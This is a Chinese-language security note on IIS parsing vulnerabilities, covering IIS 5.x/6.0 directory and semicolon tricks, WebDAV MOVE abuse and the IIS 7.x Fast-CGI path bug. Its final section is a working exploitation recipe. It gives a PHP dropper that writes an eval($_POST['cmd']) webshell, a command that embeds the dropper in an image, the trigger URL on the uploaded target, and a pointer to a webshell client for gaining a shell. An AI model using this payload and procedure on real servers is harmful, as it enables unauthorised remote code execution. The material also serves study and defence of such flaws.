




# IIS解析漏洞

### 一、IIS 5.X/6.0

1. 目录解析

以**.asp、.asa**命名的文件夹里的所有文件都将被当成ASP文件解析。

```
asd.asp/abcd.jpg
```

abcd.jpg文件会被解析成asp文件





2. 文件解析

在IIS6.0下，文件名分号后面的直接被忽略，

```file
test.asp;.jpg
```

除了**.asp**还有**.asa、.cer、.cdx**，都会解析成asp文件






在iis6.0中若只开启了WebDAV，但并没有开放脚本资源的访问权限的话。是不能通过MOVE来把put

上去的txt文件变成asp文件。虽然没开脚本资源访问权限，但是可以通过move改成后缀为txt的文件名。配合文件解析漏洞可getshell。


### 二、IIS 7.0/7.5

1. 畸形解析

在 IIS7.0中，默认开启Fast-CGI

在文件夹/xx.jpg后面加上/aa.php一句话木马会将/xx.jpg/aa.php解析成php文件

```
/xx.jpg/aa.php
```

**利用方法：将图片和恶意代码合并成一张图片，上传至目标机**

恶意代码：

```code
<?php fputs(fopen('shell.php','w'),'<?php eval($_POST['cmd'])?>');?>
//意思是fputs()写一个shell.php文件保存到本地，文件内容是<?php eval($_POST['cmd'])?>
```

将代码与图片合并：

```code
copy xx.jpg/b + 404.txt/a ok.jpg
//cmd命令行下执行，/b表示二进制模式，/a即ascii模式，合并成ok.jpg图片
```

将ok.jpg文件上传到目标机，然后访问jpg文件后面加上/xx.php

```url
http://ip/upload/file/ok.jpg/xx.php
```

这样就ok.jpg就会被当成php文件来执行，所以图片里面的代码就会被执行，执行之后就在本地创建了一个shell.php文件，上蚁剑连接getshell

